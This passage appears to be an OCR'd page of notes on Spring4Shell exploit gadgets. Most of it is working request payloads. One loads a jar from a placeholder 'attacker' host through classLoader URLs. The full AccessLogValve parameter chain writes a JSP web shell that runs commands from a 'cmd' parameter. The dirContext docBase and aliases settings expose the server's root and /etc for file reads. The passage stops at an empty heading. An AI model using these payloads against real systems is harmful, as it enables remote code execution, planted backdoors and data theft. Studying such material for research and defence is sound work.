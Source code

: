 Load exploit gadgets using `URLs` (Meders original exploit):

``` plain
class.classLoader.URLs[0]=jar:http://attacker/spring-exploit.jar!/
```

Change where jar-files are loaded from:

``` plain
class.classLoader.jarPath=/tmp/exploit
```

### Exploit gadgets: dropping JSP backdoor

Spring4Shell exploit utilized
`resources.context.parent.pipeline.first` to access an
a logger (`org.apache.catalina.valves.AccessLogValve`) instance.

Then the exploits logs a JSP shell into `webapps/app` file directory,
from which the web server will later load JSP files from.
It is a very impressive and clever exploit chain, I am very impressed!

``` plain
class.module.classLoader.resources.context.parent.pipeline.first.pattern=
  %{pre}i
  java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()
  %{colon}i
  int a = -1
  %{colon}i
  byte[] b = new byte[2048]
  %{colon}i
  while((a=in.read(b))!=-1){ out.println(new String(b))
  %{colon}i
  }
  %{post}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/app
class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

### Exploit gadgets: File reads via dirContext

[Glassfish/Payara exploit](https://snyk.io/blog/spring4shell-rce-vulnerability-glassfish-payara/):

``` plain
class.module.classLoader.resources.dirContext.docBase=/
```

`class.classLoader.resources.dirContext.aliases=` variant mentioned in
[github.com/lanjelot/kb/struts](https://github.com/lanjelot/kb/blob/master/struts):
``` plain
class.classLoader.resources.dirContext.aliases=/lol=/etc
```

### Exploit gadgets: JSP execution via dirContext
